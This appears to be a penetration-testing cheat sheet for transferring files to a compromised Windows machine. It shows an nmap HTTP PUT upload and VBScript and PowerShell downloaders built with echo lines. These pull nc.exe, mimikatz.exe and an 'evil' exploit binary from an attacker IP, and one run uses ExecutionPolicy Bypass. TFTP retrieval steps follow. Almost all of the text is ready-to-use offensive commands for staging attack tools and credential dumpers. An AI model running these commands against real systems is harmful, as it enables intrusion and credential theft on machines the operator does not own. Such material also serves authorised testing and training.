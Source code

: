 ## Nmap

> nmap -p 80 *TARGET_IP* --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'

## VBScript

Copy this into Windows Shell

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

> cscript wget.vbs http://YOURIP/file_to_send.txt C:\save\file\here.txt

> cscript wget.vbs http://10.11.0.32/accesschk.exe C:\accesschk.exe

> cscript wget.vbs http://10.11.0.32/nc.exe C:\nc.exe

> cscript wget.vbs http://10.11.0.32/mimikatz.exe C:\mimikatz.exe


## Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.32/evil.txt" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i 10.11.0.32 get file.exe



